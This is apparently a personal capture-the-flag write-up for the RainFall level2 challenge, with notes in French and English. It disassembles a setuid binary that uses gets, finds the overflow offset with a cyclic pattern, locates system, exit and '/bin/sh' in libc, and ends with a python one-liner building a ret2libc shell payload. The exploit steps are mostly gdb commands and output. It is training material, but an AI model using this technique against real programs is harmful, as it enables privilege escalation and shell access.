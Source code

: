 level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc     
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2      
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass       
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile

level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:      
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp       
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   ;call
   0x08048545 <+6>:     call   0x80484d4 <p>   
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax        
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax      
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>  
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax        
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)       
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax       
   0x080484fb <+39>:    and    $0xb0000000,%eax      
   0x08048500 <+44>:    cmp    $0xb0000000,%eax      
   0x08048505 <+49>:    jne    0x8048527 <p+83>      
   0x08048507 <+51>:    mov    $0x8048620,%eax       
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx       
   0x0804850f <+59>:    mov    %edx,0x4(%esp)        
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt> 
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax      
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>  
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax      
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
(gdb)


Instruction 0x080484ed: call 0x80483c0 <gets@plt> est problématique. La fonction gets est connue pour être vulnérable aux débordements de tampon car elle ne limite pas la quantité de données entrées par l'utilisateur. L'adresse de destination pour gets est stockée dans un emplacement à -0x4c(%ebp).

Instructions 0x080484fb - 0x08048505: Il y a une vérification sur la valeur d'une variable stockée à l'adresse -0xc(%ebp). Si cette valeur commence par 0xb0000000, le programme exécute un printf avec un message stocké à l'adresse 0x8048620 et termine le programme via _exit.

Instructions restantes: Si la vérification échoue, les données stockées sont affichées via puts, puis copiées avec strdup.

En envoyant une chaîne via gets, l'attaquant pourrait écraser la pile pour rediriger l'exécution du programme, potentiellement en profitant de la vérification des adresses ou en forçant l'exécution d'une séquence malveillante.

we can execute the commande system("/bin/sh")

---------------------------------------------------

if we cant find the system function we can search it on the libc
level2@RainFall:~$ ldd ./level2 
        linux-gate.so.1 =>  (0xb7fff000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        /lib/ld-linux.so.2 (0x80000000)
      
level2@RainFall:~$ gdb -q /lib/i386-linux-gnu/libc.so.6
Reading symbols from /lib/i386-linux-gnu/libc.so.6...(no debugging symbols found)...done.
(gdb) p system
$1 = {<text variable, no debug info>} 0x3f060 <system>

(gdb) find 0xb7e4000, +9999999, "/bin/sh"


----

----------------
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

## find system
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
## find exit
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>

## find '/bin/sh' in libc
(gdb) info proc map
process 2978
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
         0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) find 0xb7e2c000, 0xb7fcf000, '/bin/sh'
No symbol table is loaded.  Use the "file" command.
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
(gdb) x/s 0xb7f8cc58
0xb7f8cc58: "/bin/sh"

## exploiting

[Padding jusqu'à l'adresse de retour] + [Adresse de system] + [Adresse de exit] + [Adresse de "/bin/sh"]
python -c 'print("A"*80 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")' > input.txt